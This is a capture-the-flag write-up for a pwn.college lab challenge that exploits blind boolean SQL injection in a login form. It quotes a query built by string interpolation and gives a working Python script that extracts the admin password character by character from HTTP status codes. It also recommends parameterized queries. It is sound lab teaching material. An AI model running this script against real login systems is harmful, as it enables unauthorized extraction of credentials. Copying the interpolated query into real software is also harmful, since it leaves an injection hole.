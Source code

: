 # 🛡️ pwn.college SQLi Challenge Writeup — Blind SQL Injection

## 🔍 Challenge Description

We're given a web server running on `http://challenge.localhost:80` which has a login form. The server uses **SQLite** and inserts an `admin` user with the password set to the **flag**, read from `/flag`. 

The server either:
- Returns **302 redirect** if login is successful
- Returns **403 forbidden** if login fails

There is **no output of the query**, and the database (SQLite) cannot execute system commands.

---

## 🧠 Code Analysis and Vulnerability

From the provided source code:

```python
query = f"SELECT rowid, * FROM users WHERE username = '{username}' AND password = '{password}'"
````

We see:

* User input is directly inserted into the SQL query (❌ vulnerable to SQL Injection)
* The only way to infer success/failure is via HTTP status code (302 vs. 403)
* The password for `admin` is not known — it's the flag

So, our strategy:

* Inject an SQL condition that checks **one character at a time** of the password using `substr(...)`
* Use the HTTP response to confirm whether the condition is true
* Repeat until we extract the full flag

---

## 🧪 Exploit Script (Blind Boolean SQL Injection)

```python
import requests
import string

url = "http://challenge.localhost"
charset = string.printable  # Optionally reduce this for speed
flag = ""
i = 1

while True:
    found = False
    for c in charset:
        payload = f"admin' AND substr(password, {i}, 1) = '{c}' --"
        r = requests.post(url, data={"username": payload, "password": "x"}, allow_redirects=False)

        if r.status_code == 302:
            flag += c
            print(f"[+] Found character {i}: {c}")
            i += 1
            found = True
            break

    if not found:
        print("[*] No more characters found. Flag extraction complete.")
        break

print("Flag:", flag)
```

---

## 🏁 Result

Running the script reveals the flag one character at a time, using the application's login behavior to leak data indirectly.

---

## ✅ Takeaways

* **Blind SQL Injection** can leak data without visible output — even with just a true/false signal
* Analyzing the code shows where user input is unsafely used
* `substr()` is very effective in character-by-character flag extraction
* Always use **parameterized SQL queries** to avoid these bugs

